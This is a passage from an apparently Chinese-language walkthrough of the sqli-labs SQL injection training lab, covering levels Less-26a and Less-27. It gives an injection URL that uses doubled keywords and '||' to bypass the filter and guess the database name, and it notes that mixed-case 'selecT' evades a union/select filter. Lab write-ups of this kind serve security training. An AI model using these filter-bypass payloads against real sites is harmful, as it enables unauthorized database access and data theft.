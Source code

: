 id=('\$id')

```sql
//与Less-26对比，Less-26a删除了报错信息
http://192.168.65.128/sqli-labs/Less-26a/?id=1') 
aandnd (substr(database(),1,1)='s') || ('1'='1
```

![](file/image_bqqQQdm6xK.png)

### Less-27：GET - Error Based-All your UNION & SELECT Belong to us - String - single quote

**注入类型**

报错注入

**闭合方式**

id='\$id'

> 查看源码发现过滤了\*\*`union`**和**`select`\*\* ，并且 **`/m`** 表示一直检测，所以这里\*\*`select`\*\* 不能用双写绕过
> 这里可以采用大小写绕过，比如\*\*​`selecT`\*\*

![](file/image_lbk1uTP3C6.png)